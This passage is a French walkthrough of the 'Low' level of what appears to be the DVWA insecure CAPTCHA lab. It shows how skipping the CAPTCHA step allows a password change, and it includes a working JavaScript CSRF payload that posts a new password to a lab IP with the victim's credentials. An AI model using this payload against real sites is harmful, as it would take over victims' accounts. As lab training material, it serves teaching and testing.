




# Niveau "Low"

Je modifie tout d'abord mon mot de passe et j'analyse les requêtes effectuées par l’application :



Une seconde page m'indique que le Captcha est valide et me demander de confirmer mon  changement :



Le changement du mot de passe s'effectue en deux étapes. La première est la vérification du Captcha :



La seconde est la confirmation des changements demandés par l'utilisateur :



J'identifie rapidement le contournement du Captcha ici, car la seconde requête ne nécessite aucunement la bonne exécution de la première. Je peux alors exploiter ce biais afin d'effectuer une attaque CSRF pour changer le mot de passe de la victime (malgré la présence du Captcha) :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.withCredentials = true;

xhr.onreadystatechange = function() {
  if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
    console.log(xhr.response);
  }
}

xhr.send("step=2&password_new=hacked&password_conf=hacked&Change=Change");
```


Pour l'exploitation de cette vulnérabilité, il suffit de reprendre le même principe que lors d'une attaque CSRF classique (faire visiter un site malicieux à la victime, s'appuyer sur une faille XSS, etc)

